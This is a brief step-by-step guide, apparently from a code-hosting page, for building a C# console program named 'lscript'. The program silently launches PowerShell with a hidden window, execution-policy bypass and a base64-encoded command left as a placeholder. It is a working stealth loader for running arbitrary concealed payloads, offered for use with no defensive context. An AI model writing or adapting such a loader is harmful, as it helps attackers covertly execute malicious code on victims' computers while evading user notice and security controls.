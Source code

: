 ## 1. Create lscript.application

1. Go to Visual Studio Community edition
2. Create a C# Console application for Windows
3. In lscript.cs, write the following code ->

`using System.Diagnostics;

static class Program {
    [System.STAThread]
    static void Main() {
        string encoded = "<YOUR_BASE64_STRING>";
        string psArgs = $"-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -EncodedCommand {encoded}";
        ProcessStartInfo psi = new ProcessStartInfo("powershell.exe", psArgs) {
            CreateNoWindow = true,
            UseShellExecute = false
        };
        Process.Start(psi);
    }
}
`

